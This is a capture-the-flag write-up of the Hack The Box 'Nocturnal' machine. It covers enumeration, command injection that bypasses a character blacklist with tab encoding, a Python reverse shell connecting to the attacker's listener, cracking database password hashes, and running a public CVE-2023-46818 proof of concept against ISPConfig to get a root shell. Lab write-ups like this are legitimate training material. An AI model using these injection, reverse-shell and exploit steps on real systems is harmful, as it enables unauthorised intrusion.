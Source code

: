 ```yaml
---
title: HTB Nocturnal - Writeup
date: 2025-05-20 20:00:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Nocturnal from Hack The Box 

---
```


![](assets/img/nocturnal.png)

## - **Recon & Enum**
Starting with an Nmap scan.
```shell
$ nmap -sC -sV -oN noc_nmap --min-rate=100 -p- 10.10.11.64
```
```
Nmap scan report for 10.10.11.64
Host is up (0.96s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

In the site, we can upload and view files. While trying to upload a webshell as a pdf file, I noticed the username argument in the url and decided to look for other users using Burp.
![](assets/img/nocturnal_titap.png)
And right off the bat we get `admin` but there was nothing in it.
![](assets/img/nocturnal_intruder.png)
The inturder was really slow so I used gobuster instead.
```shell
$ gobuster fuzz -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -c "PHPSESSID=dd19n8u36nj5l1va4usr86424v" --exclude-length 2985
```
and we got users `amanda` and `tobias`, amanda had an `.odt` file, checked all files and there was a note in `content.xml` which contained a password `arHkG7HAI68X8s1J`. First I tried SSH but no, so logged in th esite as amanda and there an admin panel.  
## - **Foothold**
Now there was this interesting create backup thingy which took a password as input and zipped the files. Also I tried to see if there is any LFI because of the view file content section, though used it to see how does the zipping function actually work so we can bypass it and inject commands.
![](assets/img/nocturnal_function.png)

so just by inserting a doublequote `"` at the beginning, we can execute commands. As you can see in the admin.php file, some characters including white space are blacklisted. so I used URL encoded tab character `%09` instead, and we got `/etc/passwd`.

![](assets/img/nocturnal_passwd.png)

Because of the character blacklisting, it is a bit hard to directly run a reverse shell, so I'll upload a python reverse shell payload as amanda and execute that to get a shell.

![](assets/img/nocturnal_noc.png)
```
listening on [any] 7070 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.64] 36328
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@nocturnal:~/nocturnal.htb$
```
## - **User**
While I was veiwing file contents in admin panel, in the `view.php` I saw a `.db` file, navigated to the directory and opened it with sqlite3.
```
sqlite> select * from users;
select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
...
```
Using hashcat, I was able to crack `tobias`'s password
```
$ hashcat --show hash.txt -m 0
55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
```
and we get the user flag.
```
tobias@nocturnal:~$ cat user.txt
b72f452*****************ea70cddd
```
## - **Root**
Our good boy toby can't use sudo, but after checking around I discovered port 8080 is open localy and forwarded back to myself. Scanned it with nmap and it's an http proxy, and when tried going to Nocturnal.htb through the proxy, I found an ISPconfig login page. Tried some default usernames and passwords and the passwords we had found, `admin`:`slowmotionapocalypse` got me in.  
There wasn't much in the panel itself, but after getting the version `3.2.10p1` and looking it up, I discovered a vulnerability `CVE-2023-46818` and I used this [POC](https://github.com/ajdumanhug/CVE-2023-46818).
```
$ python3 exploit.py http://localhost:8080/ admin slowmotionapocalypse
[+] Target URL: http://localhost:8080/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell#
```

and from this shell we can the root flag.
```
ispconfig-shell# cat /root/root.txt
a8a9f*****************384dc8aba8
```

![](assets/img/nocturnal_congrats.png)
